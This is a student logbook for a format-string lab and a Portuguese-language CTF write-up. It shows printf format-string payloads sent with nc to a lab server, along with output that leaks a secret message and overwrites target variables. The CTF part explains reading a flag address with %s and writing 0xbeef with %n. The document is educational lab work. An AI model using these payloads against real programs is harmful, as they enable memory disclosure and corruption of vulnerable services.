

# LOGBOOK 6

1.
- output
```console
server-10.9.0.5 | 
server-10.9.0.5 | # This line shows how to construct a string s with
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd630
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 672 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd558
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | #!/usr/bin/python3
server-10.9.0.5 | import sys
server-10.9.0.5 | 
server-10.9.0.5 | # Initialize the content array
server-10.9.0.5 | N = 1500
server-10.9.0.5 | content = bytearray(0x0 for i in range(N))
server-10.9.0.5 | 
server-10.9.0.5 | # This line shows how to store a 4-byte integer at offset 0
server-10.9.0.5 | number  = 0xbfffeeee
server-10.9.0.5 | content[0:4]  =  (number).to_bytes(4,byteorder='little')
server-10.9.0.5 | 
server-10.9.0.5 | # This line shows how to store a 4-byte string at offset 4
server-10.9.0.5 | content[4:8]  =  ("abcd").encode('latin-1')
server-10.9.0.5 | 
server-10.9.0.5 | # This line shows how to construct a string s with
```
"Since it didn't show Returned Properly and few smile faces, then it means we crashed."

2.A.

"Had to send .%x 64 times to get the first four bytes of my input in the stack"
- input
```console
echo 8888.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x | nc 10.9.0.5 9090 
```
- output
```console
8888.11223344.1000.8049db5.80e5320.80e61c0.ffffd5b0.ffffd4d8.80e62d4.80e5000.ffffd578.8049f7e.ffffd5b0.0.64.8049f47.80e5320.517.ffffd675.ffffd5b0.80e5320.80e9720.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.98c01f00.80e5000.80e5000.ffffdb98.8049eff.ffffd5b0.c5.5dc.80e5320.0.0.0.ffffdc64.0.0.0.c5.38383838
```
"We can see 38383838 which equals to the hex conversion of 8888 text."

2.B.

- input
```console
echo $(printf "\x08\x40\x0b\x08").%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%s | nc 10.9.0.5 9090
```

- output
```console
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 197 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd4d8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 .11223344.1000.8049db5.80e5320.80e61c0.ffffd5b0.ffffd4d8.80e62d4.80e5000.ffffd578.8049f7e.ffffd5b0.0.64.8049f47.80e5320.517.ffffd675.ffffd5b0.80e5320.80e9720.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.0.78db6400.80e5000.80e5000.ffffdb98.8049eff.ffffd5b0.c5.5dc.80e5320.0.0.0.ffffdc64.0.0.0.c5.A secret message
```

3.A.

"We consider in 4 bytes format, and before reaching the target variable, we change the count of bits to change the variable too." 
- input
```console
echo $(printf "\x68\x50\x0e\x08").%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%400x.%n | nc 10.9.0.5 9090
```


"We can see clearly that the target variable's value changed after."
- output 
```console
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 262 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd4d8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h.11223344.    1000. 8049db5. 80e5320. 80e61c0.ffffd5b0.ffffd4d8. 80e62d4. 80e5000.ffffd578. 8049f7e.ffffd5b0.       0.      64. 8049f47. 80e5320.     4d6.ffffd6b6.ffffd5b0. 80e5320. 80e9720.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.331a0500. 80e5000. 80e5000.ffffdb98. 8049eff.ffffd5b0.     106.     5dc. 80e5320.       0.       0.       0.ffffdc64.       0.       0.       0.                                                                                                                                                                                                                                                                                                                                                                                                             106.
server-10.9.0.5 | The target variable's value (after):  0x000003c4
```

3.B
- input
```console
echo $(printf "\x68\x50\x0e\x08").%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%8x.%716x.%n | nc 10.9.0.5 9090
```

"It changes to our desired value of 0x500."
- output
```console
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h.11223344.    1000. 8049db5. 80e5320. 80e61c0.ffffd5b0.ffffd4d8. 80e62d4. 80e5000.ffffd578. 8049f7e.ffffd5b0.       0.      64. 8049f47. 80e5320.     4d6.ffffd6b6.ffffd5b0. 80e5320. 80e9720.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.       0.5cbf3000. 80e5000. 80e5000.ffffdb98. 8049eff.ffffd5b0.     106.     5dc. 80e5320.       0.       0.       0.ffffdc64.       0.       0.       0.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         106.
server-10.9.0.5 | The target variable's value (after):  0x00000500
```

# CTF SEMANA 7

## Desafio 1

Em primeiro lugar, foi feita a análise ao ficheiro _main.c_. A primeira vulnerabilidade observada foi a declaracao printf feita na linha 27.


Ao chamar o printf sem a format string, usando apenas o buffer como argumento, torna possivel a re-escrita ou leitura da memoria do programa. Vamos explorar esta vulnerabilidade para ler a variavel global flag. 

Comecando por executar o ficheiro _exploit_example.py_ e anotando o PID fornecido, para depois usar noutro terminal com o gdb. 




No gdb, obtemos a address da variavel global flag, assim, podemos, usando o printf, ler esta address de memoria, neste caso, 0x804C060. 


No que toca ao input, foi adoptada uma tecnica de tentativa erro, indo gradualmente aumentando o numero de %s na string "\x60\xc0\x04\x08%s\n" ate chegar a localizacao pretendida. Acabou por ser necessario apenas 1 %s pelo que o offset era zero.


Tendo conseguido ler com sucesso o flag_placeholder local, bastou alterar a variavel LOCAL para False no ficheiro _exploit_example.py_ para nos conectarmos ao servidor remoto e ler a flag.


## Desafio 2

Em contraste ao desafio anterior, este tem como objetivo em vez de ler uma variável global, re-escrever o valor dela (key), notando que em vez de uma string estamos frente a um int. Em consequência, os métodos adotados foram semelhantes. Primeiro determinar a address de key, usando _p &key_ no gdb. Após tal, determinar o offset entre key e a format string buffer, neste caso, tal como no desafio 1, o offset é 0.

Agora o input a injetar: como 0xbeef é um valor em hexadecimal e pretendemos injetar um int, será necessário convertê-lo para decimal (48879). Porém, como queremos injetar 5*4 bytes (tamanho do número), precisamos de arranjar um meio para escrever na stack um número de bytes maior que o tamanho de buffer. É possível fazer tal usando o format ```x%1$n```. Portanto o input será: ```\x34\xc0\x04\x08%48875x%1$n``` (48875 + 4 = 48879). Flag captured!


